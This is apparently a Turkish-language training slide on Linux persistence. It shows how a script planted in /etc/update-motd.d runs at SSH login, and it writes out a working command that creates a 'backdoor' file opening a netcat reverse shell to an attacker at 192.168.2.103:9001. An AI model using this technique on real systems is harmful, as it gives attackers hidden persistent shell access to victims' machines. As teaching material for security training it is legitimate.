

# Backdoor: ssh motd
SSH protokolünü kullanarak bir uzak sunucuya bağlandığınızda karşınıza çıkan bilgi banner'ıdır.
Bu banner genellikle sistem mesajları, güncel durumlar veya hoş geldiniz mesajları gibi bilgiler içerir.
Mesajlar genellikle /etc/update-motd.d/ dizini altındaki betiklerden oluşturulabilir.
Varsayılan olarak, diğer kullanıcılara bu dizinde yazma izni verilmez.
Örneğin, kullanıcı bir SSH oturumu başlattığında şu tür bir karşılama mesajı görebilir.
Aşağıdaki komutu kullanarak backdoor adında bir reverse shell betiği oluşturup bunu motd olarak çalıştırılması sağlanabilir.
Herhangi birisi sisteme ssh ile bağlantı sağladığında aşağıdaki betik tetiklenir ve 192.168.2.103 ip adresi ve 9001 portunda dinleyen saldırgan için reverse shell oluşturur.
Oluşturulan reverse shell saldırgandan aldığı komutları kurbanın ortamında çalıştırır.
root@kali:# cd /etc/update-motd.d
root@kali:/etc/update-motd.d# echo -e '#!/bin/sh\nnc 192.168.2.103 9001 -e /bin/bash &' > 20-backdoor && chmod +x 20-backdoor

Welcome to Ubuntu 20.04 LTS
Documentation: https://help.ubuntu.com/
Kaynak: Fahmi FJ where Linux Backdoors and Where to Find Them  on github